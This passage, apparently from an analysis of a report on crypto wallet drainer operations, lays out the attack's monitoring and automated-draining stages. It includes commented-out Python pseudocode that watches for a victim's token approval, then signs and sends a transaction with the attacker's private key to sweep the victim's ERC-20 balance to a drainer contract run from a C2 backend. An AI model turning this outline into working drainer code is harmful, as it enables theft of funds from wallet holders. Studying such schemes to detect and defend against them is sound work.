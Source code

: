         # #     time.sleep(60) # Poll every minute
        ```
    *   **Functionality:** Identifies relevant on-chain events in near real-time or with a short delay.
    *   **Data Flow:** Reads event data from the blockchain. Triggers further actions based on detected events.
    *   **Report Reference:** The report mentions scripts monitoring for approvals to act quickly.

### 3.3. Automated Draining Execution

*   **Execution Step 3: Trigger Drain Based on Monitored Event.**
    *   **Logic:** Upon detecting a relevant event (e.g., a new, large approval to the drainer contract by a known victim), the script initiates the draining process. This might involve calling an API endpoint on the backend C2 server or, if the script has wallet capabilities, directly constructing and sending the drain transaction.
    *   **Code Concept (Report Implication - Python, direct drain if script has PK):**
        ```python
        # Conceptual: Automated drain triggered by script
        # def trigger_automated_drain(victim_address, token_address, approved_amount):
        #     print(f"Automated drain triggered for victim {victim_address}, token {token_address}, amount {approved_amount}")
        #     # This would reuse logic similar to the backend's drain_with_approval function:
        #     # 1. Get attacker's nonce: nonce = w3.eth.get_transaction_count(attacker_account.address)
        #     # 2. Build transaction to call drainer_contract.functions.drainFullErc20Balance(token_address, victim_address)
        #     #    (or similar function that takes amount if preferred)
        #     #    tx_params = { "from": attacker_account.address, "gas": ..., "gasPrice": ..., "nonce": nonce }
        #     #    drain_tx = drainer_contract.functions.drainToken(...).build_transaction(tx_params)
        #     # 3. Sign transaction: signed_tx = w3.eth.account.sign_transaction(drain_tx, private_key=ATTACKER_WALLET_PK)
        #     # 4. Send raw transaction: sent_tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
        #     # 5. Log sent_tx_hash and monitor its confirmation
        #     # print(f"Automated drain transaction sent: {sent_tx_hash.hex()}")